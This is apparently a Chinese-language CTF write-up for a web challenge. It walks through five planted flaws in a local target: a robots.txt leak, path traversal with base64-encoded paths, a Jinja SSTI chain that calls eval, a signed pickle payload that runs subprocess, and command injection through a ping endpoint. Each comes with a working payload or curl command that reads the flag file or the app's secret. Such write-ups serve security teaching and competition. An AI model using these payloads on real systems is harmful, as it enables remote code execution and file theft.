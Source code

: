 # Web

总共留了五个漏洞

## robots.txt

```
$ curl http://127.1/robots.txt
5784892c-6fae-439b-885b-df0efe884748
```

## 图片任意文件读

1. 直接读取 flag
```
$ curl http://127.1/image/Li4vLi4vLi4vLi4vLi4vLi4vb3B0L2ZsYWcudHh0
5784892c-6fae-439b-885b-df0efe884748
```

2. 读取 .secret
```
$ curl http://127.1/image/Li4vLi4vLi4vLi4vLi4vLi4vdmFyL3d3dy9hcHAvLnNlY3JldA==
HITCTF
```

## SSTI

留言功能如果触发异常，则会触发 SSTI 漏洞  
触发异常只需要输入长度多于表单规定的长度（64）即可  
或者提交错误的 _csrf_token  

```python
class MessageboardForm(Form):
    content = StringField('内容',validators=[Required(),Length(max=64)])
    submit = SubmitField('提交')
```

利用链为先登陆，再留言，留言的时候长度大于 64  

```
{{().__class__.__bases__[0].__subclasses__()[3].__init__.__globals__["__builtins__"]["eval"]("open('/opt/flag.txt','r').read()")}}
```

## Pickle
由于本次比赛所有队伍的 .secret 相同，所以只需要修改将 pickle 代码使用 HMAC_Pickler 进行签名即可  
原本预期的是所有队伍 .secret 随机，则需要使用其他漏洞（如任意文件读）泄露出 .secret  
将 aboutme 该为如下  
```
88be1ffc67a91168b0eb5f0e1cf5efd7|KGNzdWJwcm9jZXNzCmNoZWNrX291dHB1dAooVmNhdApWL29wdC9mbGFnLnR4dApsby4=
```
再访问个人页面即可获取flag


## 远程命令执行

```
$ curl -X POST 'http://127.1/myfeeling/ping' --data 'pong=/bin/cat /opt/flag.txt'
5784892c-6fae-439b-885b-df0efe884748
```

